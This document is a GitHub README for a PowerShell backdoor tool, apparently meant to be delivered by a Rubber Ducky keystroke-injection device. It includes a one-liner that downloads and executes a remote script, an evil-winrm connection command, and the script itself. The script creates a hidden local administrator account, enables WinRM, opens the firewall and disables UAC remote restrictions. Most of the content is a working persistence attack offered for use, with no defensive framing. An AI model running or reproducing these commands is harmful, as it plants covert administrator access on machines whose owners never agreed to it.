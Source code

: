 # WinRM-Reverse-Shell

# Own Pass And Name
Go to `WinRM.ps1` and edit 
+ $Username = "`TO YOUR OWN`"
And for the pass edit
+ $Password = ConvertTo-SecureString "`TO YOUR OWN`" -AsPlainText -Force

# Powershell One liner with administrator permissions
`IEX (IWR "https://raw.githubusercontent.com/VBV11/WinRM-Reverse-Shell/main/WinRM.ps1")`
# How to get the shell using Evil-WinRM
Use this command 
`evil-winrm -i YOUR.IP.ADDRES.LOL -u Admin -p Password1`
# ![Screenshot_2024-02-25_13-40-13 (1)](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/446782ec-8fcf-46ac-adf1-10f54711bf73)

# Rubber Ducky payload
### The payload is in this repo aswel 
+ Edit your own speed of the payload
+ You can change to URL to your own 

# Script into pieces
## Create a new local user account
$Username = "`Admin`"
$Password = ConvertTo-SecureString "`Password1`" -AsPlainText -Force
New-LocalUser -Name $Username -Password $Password -PasswordNeverExpires

# Author
This script was authored by VBV11.

## Add the newly created user to the local Administrators group
Add-LocalGroupMember -Group "Administrators" -Member $Username

## Enable Windows Remote Management (WinRM)
Enable-PSRemoting -Force

## Add a firewall rule to allow WinRM traffic
New-NetFirewallRule -DisplayName "Windows Remote Management for RD" -Direction Inbound -Protocol TCP -LocalPort 5985 -Action Allow

## Disable UAC remote restrictions
+ Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "LocalAccountTokenFilterPolicy" -Value 1 -Force
+ New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -Name "Admin" -Value 0 -PropertyType DWORD -Force

## Exit PowerShell session
Exit

# Credits
### credits TW-D for inspiring me to create this powershell script
